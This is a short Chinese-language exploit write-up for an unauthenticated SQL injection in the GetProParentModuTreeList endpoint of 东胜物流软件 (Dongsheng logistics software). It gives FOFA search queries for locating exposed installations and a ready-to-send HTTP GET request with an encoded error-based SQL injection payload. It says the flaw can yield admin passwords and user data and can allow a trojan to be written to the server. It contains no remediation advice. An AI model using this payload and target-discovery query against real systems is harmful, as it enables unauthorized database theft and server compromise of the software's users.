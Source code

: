 # 东胜物流软件SQL

### 1.搜索语法

东胜物流软件 GetProParentModuTreeList接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL注入漏洞获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 2.fofa语法

```xml
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```

### 3.漏洞复现

```xml
GET /MvcShipping/MsBaseInfo/GetProParentModuTreeList?PARENTID=%27+AND+4757+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%2898%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%284757%3D4757%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28113%29%2BCHAR%2898%29%2BCHAR%28106%29%2BCHAR%28113%29%29%29+AND+%27KJaG%27%3D%27KJaG HTTP/1.1
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719398887150-e09aafd7-f25a-4a3e-8f95-4cc3eae5fa4a.png)